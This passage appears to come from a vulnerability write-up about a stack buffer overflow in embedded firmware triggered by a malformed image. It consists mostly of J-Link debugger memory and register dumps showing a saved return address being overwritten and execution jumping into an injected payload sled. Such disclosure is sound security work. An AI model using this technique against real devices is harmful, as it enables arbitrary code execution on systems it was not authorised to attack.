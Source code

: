 ```
2003FFB0 = 00010000 2003C954 ABA08801 006025DB
2003FFC0 = 2003FFC8 00002863 2003FFF0 2003C954
2003FFD0 = 00000001 00000000 00010000 31310001
2003FFE0 = ABA08801 01003147 2003FFF0 000017D9  <---- saved return address value
2003FFF0 = 00000000 00000000 00000000 000001BB
20040000 = BF00BF00 BF00BF00 E7FEBF00 A0F10400
20040010 = 33338047 33333131 33333131 33333131
```

After the function call, the stack has been overwritten and the previously saved return address has been modified:
```
J-Link>mem32 2003FED0,0x100
2003FED0 = 2003C944 2003C954 4EE54BA6 33333131
2003FEE0 = 33333131 33333131 33333131 33333131
2003FEF0 = 33333131 33333131 33333131 33333131
2003FF00 = 33333131 33333131 33333131 33333131
2003FF10 = 33333131 33333131 33333131 33333131
2003FF20 = 33333131 33333131 33333131 33333131
2003FF30 = 33333131 33333131 33333131 33333131
2003FF40 = 33333131 33333131 33333131 33333131
2003FF50 = 33333131 33333131 33333131 33333131
2003FF60 = 33333131 33333131 33333131 33333131
2003FF70 = 33333131 33333131 33333131 33333131
2003FF80 = 33333131 33333131 33333131 33333131
2003FF90 = 33333131 33333131 33333131 33333131
2003FFA0 = 33333131 33333131 33333131 33333131
2003FFB0 = 33333131 33333131 33333131 33333131
2003FFC0 = 33333131 33333131 33333131 33333131
2003FFD0 = 33333131 33333131 33333131 84C00000
2003FFE0 = AA002000 A8A5CCBB 00000066 2004000B <---- overwritten address value
2003FFF0 = 24070001 24242424 BF00BF00 BF00BF00
20040000 = BF00BF00 BF00BF00 E7FEBF00 A0F10400
20040010 = 33338047 33333131 33333131 33333131
```

At the end of the function before return, the top of the stack containing our input is used to return back to the calling function, resulting in the program executing the payload included in our malformed image: 

```
PC = 00001140, CycleCnt = 02ACD568
R0 = 00000031, R1 = 00000002, R2 = 00000010, R3 = 38000000
R4 = 00000000, R5 = 00000000, R6 = 00000000, R7 = 2003FFE8
R8 = 9220C050, R9 = D08C106E, R10= 20030000, R11= 00000000
R12= ABA08801
SP(R13)= 2003FFE8, MSP= 2003FFE8, PSP= 00000000, R14(LR) = 0000113B
J-Link>mem32 2003FFE8,0x20
2003FFE8 = 00000066 2004000B 24070001 24242424
2003FFF8 = BF00BF00 BF00BF00 BF00BF00 BF00BF00
20040008 = E7FEBF00 A0F10400 33338047 33333131
20040018 = 33333131 33333131 33333131 33333131
20040028 = 33333131 33333131 33333131 33333131
20040038 = 33333131 33333131 33333131 33333131
20040048 = 33333131 33333131 33333131 33333131
20040058 = 33333131 33333131 33333131 33333131
J-Link>s
00001140:   80 BD              POP       {R7,PC}
```
